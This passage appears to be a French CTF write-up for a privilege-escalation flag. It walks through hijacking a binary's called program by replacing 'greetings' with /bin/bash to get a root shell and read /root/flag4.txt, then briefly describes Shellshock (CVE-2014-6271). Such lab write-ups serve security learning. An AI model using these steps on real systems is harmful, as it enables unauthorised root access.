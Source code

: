 ## 🎯 FLAG 4: Escalade de privilèges

### **Question:** *"The most restricted areas often hold the most valuable secrets. Look into the '/root' directory to find the hidden flag."*

#### **Démarche d'escalade:**

1. **Tentative d'accès root (échec)**
   ```bash
   cd /root
   # Access denied
   ```

2. **Analyse des fichiers locaux**
   ```bash
   ls -la
   file greetings
   file welcome
   ```
   - `greetings` et `welcome` sont des binaires
   - Permissions lecture seule sur `welcome`

3. **Analyse du binaire welcome**
   ```bash
   strings welcome
   ```
   - Révèle que le binaire exécute `greetings`

4. **Exploitation Path Hijacking**
   ```bash
   # Supprimer le fichier greetings original
   rm greetings
   
   # Créer un nouveau greetings avec bash
   cp /bin/bash greetings
   
   # Exécuter welcome pour obtenir root shell
   ./welcome
   ```

5. **Récupération du flag root**
   ```bash
   cd /root
   ls -al
   cat flag4.txt
   ```

---

## 📋 Vulnérabilités Exploitées

### **Shellshock (CVE-2014-6271)**
- **Description:** Exécution de code via variables d'environnement Bash
- **Cible:** Scripts CGI utilisant Bash
- **Impact:** RCE (Remote Code Execution)
